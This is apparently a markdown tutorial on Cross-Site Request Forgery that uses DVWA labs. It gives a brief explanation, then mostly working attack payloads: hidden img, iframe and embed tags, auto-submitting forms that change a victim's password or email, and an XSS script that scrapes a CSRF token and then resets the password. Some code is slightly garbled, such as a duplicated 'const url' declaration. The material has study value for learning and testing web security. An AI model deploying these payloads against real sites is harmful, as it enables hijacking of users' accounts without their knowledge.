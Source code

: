 ## 1. Cross Site Request Forgery (CSRF)

![](https://portswigger.net/web-security/images/cross-site%20request%20forgery.svg)
>We will use DVWA Labs To Learn CSRF Attack


**What is CSRF Attack?**

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality. 

**Example URL (GET Method)**

```
http://target-vuln-web.com/email/change?email=attacker@anon.net
http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass
```
**Example Request (POST Method)**

```
POST /email/change HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

email=attacker@anon.net
```

```
POST user/new_password HTTP/1.1
Host: target-vuln-web.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=cookievalues

password=newpass&comfirm_password=newpass
```

**Exploit CSRF Vulnerability Via HTML Injections (GET Method)**

>Using Image Tag
```
<img style="display:none;" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass">
```

>Using Iframe Tag
```
 <iframe src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"></iframe> 
```

>Using Embed Tag
```
 <embed type="image/jpg" src="http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass" style="display:none;"> 
```

**Exploit CSRF Vulnerability Via HTML Injections (POST Method)**

>Form + Script Tag (Without Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

>Form + Script Tag (With Token)
```
<form action="http://target-vuln-web.com/user/new_password" method="POST">
            <input type="hidden" name="password" value="newpass" />
            <input type="hidden" name="comfirm_password" value="newpass" />
            <input type="hidden" name="token" value="tokenishere" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
```

**Exploit CSRF Vulnerability Via XSS (GET Method)**

>Whithout token
```
<script>
const HttpRequest = new XMLHttpRequest();
const url=const url = 'http://target-vuln-web.com/user/new_password?password=newpass&comfirm_password=newpass'
;
HttpRequest.open("GET", url);
HttpRequest.send();
</script>
```

>With token
```
<body onload="change_password()">
 <script>
        function change_password(){
            const request = new XMLHttpRequest();
            const url = "http://localhost:80/vulnerabilities/csrf/"
            

            request.open("GET", url);
            request.onreadystatechange = () => {
            if (request.readyState === request.DONE && request.status === 200) {

                var response = request.responseText;

                var user_token = /[a-f0-9]{32}/g.exec(response)[0]
                var payload = "http://localhost:80/vulnerabilities/csrf/?password_new=newpass&password_conf=newpass&Change=Change&user_token="+user_token;
                var second_request = new XMLHttpRequest();
                second_request.open("GET", payload);
                second_request.send()

            }
            };
            request.send()
        
    }
        </script>
</body>
```

